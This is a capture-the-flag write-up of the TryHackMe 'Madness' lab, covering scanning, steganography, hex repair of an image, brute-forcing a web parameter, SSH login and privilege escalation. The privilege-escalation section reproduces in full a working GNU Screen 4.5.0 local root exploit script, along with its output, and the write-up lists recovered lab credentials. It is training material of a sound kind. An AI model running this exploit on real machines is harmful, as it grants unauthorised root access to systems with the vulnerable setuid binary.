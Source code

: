 # Madness(THM)

## Port Scanning

```bash
**┌──(bc-here㉿kali)-[~/CTF{}/THM]
└─$ sudo nmap -sS -sV -O mad >> ports.txt 

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))**

```

## Web Server

- `[http://mad](http://mad/)/`   here we found that the webserver is running on Apache2

![](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_07-45.bmp)
- The purple dot is an image but the image is not opening.
- [`http://mad/thm.jpg`](http://mad/thm.jpg)  lets download the image.

## THM Given Image

![5iW7kC8](https://github.com/user-attachments/assets/1969b533-79b2-4437-9d22-3c5677827aaf)

- If we extract this image we find some interesting things like a `.out` file and a `password.txt` file

```bash

┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ stegseek -sf intropic.jpg        
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "password.txt".
[i] Extracting to "intropic.jpg.out".

┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ cat intropic.jpg.out 
I didn't think you'd find me! Congratulations!

Here take my password

*axA&GF8dP
```

## Hex Code

- If we see the hex code of thm.jpg file we can find that format is not jpg rather its png
- We have to change it to jpg or `JFIF` format.
- [File Extension Changer in Hex Mode (wiki)](https://en.wikipedia.org/wiki/List_of_file_signatures?source=post_page-----8a8080672083--------------------------------)

```bash
┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ hexeditor thm.jpg 
```

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_08-42.bmp)

```bash
┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ open thm.jpg  
```

![2024-08-24_08-43.bmp](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_08-43.bmp)

## Hidden Directory

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_08-47.bmp)

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_08-49.bmp)

- There is a semicolon after `Secret Entered:` and the comment is saying that the secret key will be from `0-99`
- Lets bruteFroce that using `burpsuite`

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_09-18.bmp)

- `/?secret=`  parameter also work for the secret entry.
- So now we can bruteFroce from 0-99 in this paramater in the burp intuder

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_09-38.bmp)

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_09-47.bmp)

- I went for 73 because its the longest!
- Urgh, you got it right! But I won't tell you who I am! `y2RPJ4QaPF!B`

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_09-47.bmp)

- username → wbxre

## SSH Login

![2024-08-24_09-51.bmp](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_09-51.bmp)

## User Flag

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_09-53.bmp)

## Getting Privilege

```bash
joker@ubuntu:/home$ find / -type f -perm -04000 -ls 2>/dev/null

   150852   1552 -rwsr-xr-x   1 root     root        1588648 Jan  4  2020 /bin/screen-4.5.0

```

```bash
┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ searchsploit screen 4.5.0
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                        |  Path
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                                                                         | linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                                                                                   | linux/local/41152.txt
-------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(bc-here㉿kali)-[~/CTF{}/THM/madness]
└─$ searchsploit -m 41154
  Exploit: GNU Screen 4.5.0 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41154
     Path: /usr/share/exploitdb/exploits/linux/local/41154.sh
    Codes: N/A
 Verified: True
File Type: Bourne-Again shell script, ASCII text executable
Copied to: /home/bc-here/CTF{}/THM/madness/41154.sh

```

The shell is…….

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell  
```

- Copy the shell and create a file on the target machine and run it

```bash
joker@ubuntu:~$ nano tuises.sh
joker@ubuntu:~$ chmod +x tuises.sh 
joker@ubuntu:~$ ./tuises.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# whoami
root
```

- In our country `tuises`  means you are finished! 😁😁

## Root Flag

![image.png](https://github.com/Ruhanyat-994/myCTF/raw/master/THM-CTF/Madness/Photos/2024-08-24_10-02.bmp)

## Potential Creds

1. `Password:` →  `*axA&GF8dP` 
    1. It could be a hash format
2. /hiddenDirectory from hex edit
3. `y2RPJ4QaPF!B` → passphrase for thm.jpg
4. username → `wbxre`
    1. It doesn’t seem to be a valid username lets try to decode it.
5. Its a ROT13 format which is `wbxre` → `joker`
